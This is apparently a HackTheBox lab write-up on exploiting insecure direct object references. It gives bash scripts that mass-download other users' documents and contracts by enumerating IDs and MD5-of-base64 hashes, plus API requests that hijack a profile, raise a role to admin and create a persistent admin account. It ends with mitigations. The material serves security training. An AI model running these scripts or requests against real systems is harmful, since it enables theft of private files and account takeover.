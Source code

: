 # HTB-Writeup-Insecure-Direct-Object-References
HackTheBox Writeup:  Mass IDOR Enumeration, API exploitation, and privilege escalation.

By Ramyar Daneshgar 

This document presents a highly detailed technical analysis of **Insecure Direct Object Reference (IDOR) vulnerabilities** exploited within a HackTheBox web application. My methodology entailed **systematic mass enumeration**, **bypassing encoded object references**, and **escalating privileges via insecure API endpoints**. The approach leveraged **cybersecurity principles**, including **parameter fuzzing, access control bypass techniques, and API manipulation**, to achieve full compromise of the application.

---

## **1. Mass IDOR Enumeration**

### **Identification and Initial Assessment**
Upon initial reconnaissance, I identified a web endpoint that exposed user-specific document access through a **query parameterized HTTP GET request**:
```http
http://SERVER_IP:PORT/documents.php?uid=1
```
Observing the **direct object reference (uid=1)** within the URL suggested a potential IDOR vulnerability. I manually altered the **uid** value to test whether access control validation was being enforced at the backend:
```http
http://SERVER_IP:PORT/documents.php?uid=2
```
Upon executing the modified request, the application returned documents belonging to another user, confirming an **authorization bypass**.

### **Pattern Recognition and Forced Browsing Analysis**
Further investigation of the document structure revealed that filenames followed a consistent pattern:
```html
<li><a href='/documents/Invoice_2_08_2020.pdf'>Invoice</a></li>
<li><a href='/documents/Report_2_12_2020.pdf'>Report</a></li>
```
The **predictability of filenames** indicated susceptibility to a **forced browsing attack**, wherein systematically altering file names could lead to unauthorized file retrieval.

### **Automating Mass Enumeration**
To efficiently extract all accessible files, I constructed a **Bash-based enumeration script**:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..100}; do  # Iterate through user IDs
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link  # Download each document
    done
done
```
#### **Results:**
- Successfully retrieved documents from multiple unauthorized accounts.
- Confirmed **backend access control failure** due to improper enforcement of role-based validation.

---

## **2. Bypassing Encoded Object References**

### **Encoded Reference Discovery**
While examining API responses, I discovered that some files were referenced using **hashed identifiers** rather than sequential numerical values. A request to retrieve a contract file appeared as follows:
```http
POST /download.php
Content-Type: application/x-www-form-urlencoded

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
This suggested an attempt at **Secure Direct Object Referencing (SDOR)**, intended to prevent IDOR exploitation by obscuring object references. However, the implementation relied on **MD5 hashing**, which is inherently predictable and reversible given knowledge of the input format.

### **Reverse Engineering the Hashing Mechanism**
Decompiling JavaScript within the web client revealed the hashing logic:
```js
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
I identified that the application processed identifiers as follows:
1. **Base64 encoding the UID** (`btoa(uid)`).
2. **Computing an MD5 hash** of the encoded value (`CryptoJS.MD5()`).

### **Hash Generation and Exploitation**
Utilizing this knowledge, I computed **valid object references** dynamically:
```bash
for i in {1..100}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -'
done
```
### **Automated Data Exfiltration**
With valid hashed identifiers generated, I deployed a **Bash-based mass retrieval exploit**:
```bash
#!/bin/bash

for i in {1..100}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done
```
#### **Results:**
- Successfully retrieved all **restricted contract files**.
- Confirmed **weak encoding mechanisms** that provided no true security against enumeration attacks.

---

## **3. API Exploitation and Privilege Escalation**

### **Intercepting API Requests**
I monitored API traffic using **Burp Suite** and identified a **PUT request modifying user profiles**:
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb"
}
```
The critical observation was that **authorization control was dependent on a client-side cookie (`role=employee`)**, indicating a **severe security flaw**.

### **Privilege Escalation via API Manipulation**
#### **1️⃣ Unauthorized User Modification**
I modified a request to **edit another user’s profile**:
```http
PUT /profile/api.php/profile/2
Content-Type: application/json
Cookie: role=employee

{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "full_name": "Compromised User",
    "email": "attacker@employees.htb"
}
```
 **Impact:** Enabled password reset takeover of the target account.

#### **2️⃣ Escalating Privileges to Administrator**
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "role": "web_admin"
}
```
 **Effect:** Elevated my privileges to **administrator**.

#### **3️⃣ Creating a Persistent Admin Account**
```http
POST /profile/api.php/profile
Content-Type: application/json
Cookie: role=web_admin

{
    "uid": 100,
    "role": "web_admin",
    "full_name": "Persistent Attacker",
    "email": "attacker@employees.htb"
}
```
 **Effect:** Established an **admin foothold**, ensuring persistent access.

---

## **4. Mitigation Strategies**

| **Vulnerability** | **Recommended Mitigation** |
|-------------------|----------------------------|
| **Mass IDOR Enumeration** | Enforce **Role-Based Access Control (RBAC)** and **strict backend validation**. |
| **Bypassing Encoded References** | Replace **predictable hashes** with **cryptographically secure UUIDs**. |
| **Insecure API Authorization** | Implement **server-side access control validation**, eliminating reliance on **client-side roles**. |


